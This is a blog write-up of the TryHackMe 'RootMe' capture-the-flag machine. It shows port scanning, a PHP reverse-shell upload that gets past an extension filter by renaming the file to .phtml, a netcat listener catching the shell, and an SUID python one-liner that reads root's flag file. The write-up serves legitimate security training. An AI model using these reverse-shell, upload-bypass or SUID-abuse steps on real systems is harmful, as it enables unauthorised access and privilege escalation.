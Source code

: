 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# THM | RootMe 

Another THM Privilege Escalation Machine 🔓

Released: 2024-02-28


## Nmap Scan

```bash
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.102.215
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 23:18 EST
Nmap scan report for 10.10.102.215
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

- Only ports 22 & 80 are open.

> Port 22 - **ssh**  
> Port 80 - **http Apache 2.4.29**

## Dirsearch

- Whilst the room advises us to use *Gobuster*, instead I will use *Dirsearch*.

![Image showing the results of dirsearch](blog/rootmepics/dirsearch.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1 *Dirsearch Results*</small>
</div>

- The only hidden/useful directory to us is `/panel`

## Obtaining the User Flag

- In `/panel`, we find an upload panel (Fig.2)...

![Image showing the upload panel](blog/rootmepics/uploadpanel.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2</small>
</div>

- We might need to find or make a PHP script to gain user access.

- A community favorite for gaining a reverse shell is [this PHP script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to modify lines 49 & 50 with your IP & Port (up to you). Optional: change 54 with your desired shell.

``` bash
49 $ip = '10.2.121.184';  // CHANGE THIS
50 $port = 4444;       // CHANGE THIS
···
54 $shell = 'uname -a; w; id; /bin/bash -i';
```

- I originally attempted to bypass the PHP filter by renaming the file to *"revshell.png.php"* and as we can see, it didn't end well...

![Image showing the upload panel angry at me](blog/rootmepics/phpuploaddenied.png 'Fig.3')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1 *A Furious Upload Panel*</small>
</div>

- The upload panel is mad at me ☹️

- The next solution was to rename the file to *"revshell.phtml"* and it successfully uploaded! After that, head to `/uploads` and click on the uploaded PHP script for it to run. 

```bash
# Note: Before I modified the script to use bash, I used sh
┌──(vipin㉿vipin)-[~]
└─$ nc -lvnp 4444 # Set up a listener before clicking the PHP script.
listening on [any] 4444 ...
connect to [10.2.121.184] from (UNKNOWN) [10.10.102.215] 48754
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:09:16 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
cat /var/www/user.txt
THM{XXXXXXXXXXXX}
```
- #### User.txt Acquired 😎

## Aquiring Root Privileges

- The hint provides a command to search for **SUID Binaries**. After running it, there were only a select few that were potential **SUID Binaries** with `/usr/bin/python` being the prime suspect.

- We can take advantage of Python being an **SUID Binary** by exploiting it to read the root flag file. [GTFObins](https://gtfobins.github.io/gtfobins/python/#file-read) has various methods to take advantage of these **SUID Binaries**.

```bash
www-data@rootme:/$ python -c 'print(open("/root/root.txt").read())' 
python -c 'print(open("/root/root.txt").read())'
THM{XXXXXXXXXXXXXXXXXXX}
```

### MACHINE PWN'ED 😎


